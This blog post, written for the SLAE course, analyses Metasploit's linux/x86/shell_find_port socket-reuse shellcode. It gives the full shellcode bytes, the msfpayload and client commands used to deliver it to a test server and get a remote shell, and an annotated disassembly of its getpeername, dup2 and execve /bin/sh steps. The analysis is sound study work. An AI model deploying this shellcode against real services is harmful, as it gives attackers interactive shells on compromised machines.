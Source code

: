 ```yaml
---
title:  "[SLAE 5] Shell Find Port"
---
```


![Logo](/assets/images/tux-root.png)

## Metasploit shell_find_port shellcode analysis

This post is part of the 5th assignment of the [SLAE](http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/) course and will analyse a Metasploit socket reuse shellcode: _`linux/x86/shell_find_port`_.  I've started by analysing the following payload: 
```bash
# msfpayload linux/x86/shell_find_port S
 
       Name: Linux Command Shell, Find Port Inline
     Module: payload/linux/x86/shell_find_port
    Version: 0
   Platform: Linux
       Arch: x86
Needs Admin: No
 Total size: 169
       Rank: Normal
 
Provided by:
  Ramon de C Valle <rcvalle metasploit.com>
 
Basic options:
Name   Current Setting  Required  Description
----   ---------------  --------  -----------
CPORT  60957            no        The local client port
 
Description:
  Spawn a shell on an established connection
```

So this is actually a **_port reuse shellcode_**: it will search for an already established connection (based on the local client port specified in CPORT variable) and spawn a shell over that connection. Nice! There is a great description of how this payload functions at [BlackHatLibrary](http://www.blackhatlibrary.net/Shellcode/Socket-reuse).

To test this payload we'll need:
* A server that listens for connections and also executes payloads 
* A client that will establish a connection with the server from a fixed local port, then send our metasploit shellcode.

We'll use the [socket-loader.c](http://www.blackhatlibrary.net/Shellcode/Appendix#socket-loader.c) and [socket-reuse-send.c](http://www.blackhatlibrary.net/Shellcode/Appendix#socket-reuse-send.c) from BlackhatLibrary. We'll first compile and start the server: 

```bash
$ gcc -Wall -o socket-loader socket-loader.c 
$ ./socket-loader 7001
```
 
Then generate the metasploit payload and integrate it into the socket-reuse-send source file: 
```bash
# msfpayload linux/x86/shell_find_port CPORT=4444 C
/*
 * linux/x86/shell_find_port - 62 bytes
 * http://www.metasploit.com
 * VERBOSE=false, CPORT=4444, PrependSetresuid=false, 
 * PrependSetreuid=false, PrependSetuid=false, 
 * PrependSetresgid=false, PrependSetregid=false, 
 * PrependSetgid=false, PrependChrootBreak=false, 
 * AppendExit=false, InitialAutoRunScript=, AutoRunScript=
 */
unsigned char buf[] = 
"\x31\xdb\x53\x89\xe7\x6a\x10\x54\x57\x53\x89\xe1\xb3\x07\xff"
"\x01\x6a\x66\x58\xcd\x80\x66\x81\x7f\x02\x11\x5c\x75\xf1\x5b"
"\x6a\x02\x59\xb0\x3f\xcd\x80\x49\x79\xf9\x50\x68\x2f\x2f\x73"
"\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b"
"\xcd\x80";
 
# gcc -Wall -o socket-reuse-send socket-reuse-send.c 
```

The syntax for client is as follows:
```bash
./socket-reuse-send <server_ip> <server_port> <client_ip> <local_client_port>
```

So the next line will connect to the server listening on port 7001 and send the payload generated earlier from the local port 4444. The payload will then be executed by the server and we'll get a shell: 

```bash
# ./socket-reuse-send 192.168.56.1 7001 192.168.56.101 4444
 [*] Connecting to 192.168.56.1
 [*] Sending payload
whoami
liv
```

So the payload is working as expected, now onto analysis. We'll first try to use the __*`sctest`*__ binary from __*`libemu`*__: 
```
# msfpayload linux/x86/shell_find_port CPORT=4444 R > shellcode.bin
$ cat shellcode.bin | /opt/libemu/bin/sctest -vvv -S -s 1000 -G shellcode.dot
$ dot shellcode.dot -T png -o shellcode.png
```

[![](/assets/images/libemu-small.png)](/assets/images/libemu.png)

This way we can get a feeling about how this shellcode is functioning. As we'll see later, there is a final piece missing from the picture, because the sctest emulator is not leaving the loop (marked with red arrows). We'll use a disassembler to examine all the instructions: 
```bash
$ echo -ne "\x31\xdb\x53\x89\xe7\x6a\x10\x54\x57\x53\x89\xe1\xb3\x07\xff\x01\x6a\x66\x58\xcd\x80\x66\x81\x7f\x02\x11\x5c\x75\xf1\x5b\x6a\x02\x59\xb0\x3f\xcd\x80\x49\x79\xf9\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80" | ndisasm -b 32 -
```

First operation done by a server is, as seen in the picture, to execute _`getpeername`_ in a loop. This will try to obtain information about a peer connected to a specific file descriptor. 
```c
int getpeername(int sockfd, struct sockaddr *addr, socklen_t *addrlen);
00000000  31DB              xor ebx,ebx
00000002  53                push ebx
00000003  89E7              mov edi,esp
00000005  6A10              push byte +0x10     ;  addrlen
00000007  54                push esp            ; *addrlen
00000008  57                push edi            ; *addr
00000009  53                push ebx            ; sockfd to search
0000000A  89E1              mov ecx,esp
0000000C  B307              mov bl,0x7          ; int call - SYS_GETPEERNAME (7)
getpeername_loop:
0000000E  FF01              inc dword [ecx]     ; increment fd to be checked
00000010  6A66              push byte +0x66     ; sys_socketcall
00000012  58                pop eax
00000013  CD80              int 0x80
```

The next part checks for a specific condition for any file descriptor found: it will verify the source port and if it's different than 4444 we'll increment the file descriptor and re-execute the loop: 
```c
; 115c(hex) = 4444 (dec)
; compare port
; struct sockaddr_in {
    short            sin_family;   // e.g. AF_INET, AF_INET6
    unsigned short   sin_port;     // e.g. htons(3490)
    struct in_addr   sin_addr;     // see struct in_addr, below
    char             sin_zero[8];  // zero this if you want to
};
00000015  66817F02115C      cmp word [edi+0x2],0x5c11
; if not, jump to getpeername_loop
0000001B  75F1              jnz 0xe
```

In case a connection was found with the source port equal to 4444, it will execute in a loop 3 _`dup2`_ calls, and duplicate stdin, stdout and stderr to the found file descriptor: 
```c
0000001D  5B                pop ebx         ; old fd parameter;  
0000001E  6A02              push byte +0x2  ; 
00000020  59                pop ecx         ; new fd
dup2_loop:
00000021  B03F              mov al,0x3f     ; sys_dup2 syscall
00000023  CD80              int 0x80
00000025  49                dec ecx
00000026  79F9              jns 0x21        ; if not -1, jump to dup2_loop label
The final piece of the shellcode executes /bin/sh: 
00000028  50                push eax
00000029  682F2F7368        push dword 0x68732f2f   ; 'hs//'
0000002E  682F62696E        push dword 0x6e69622f   ; 'nib/'
00000033  89E3              mov ebx,esp     ; '/bin/sh\x00'
00000035  50                push eax
00000036  53                push ebx
00000037  89E1              mov ecx,esp     ; address of the parameters array
00000039  99                cdq
0000003A  B00B              mov al,0xb      ; sys_execve
0000003C  CD80              int 0x80
```

##

The complete source files and scripts mentioned in this post can be found in my [SLAE Git repository](https://github.com/livz/slae).

**_This blog post has been created for completing the requirements of the [SecurityTube Linux Assembly Expert certification](www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)_**
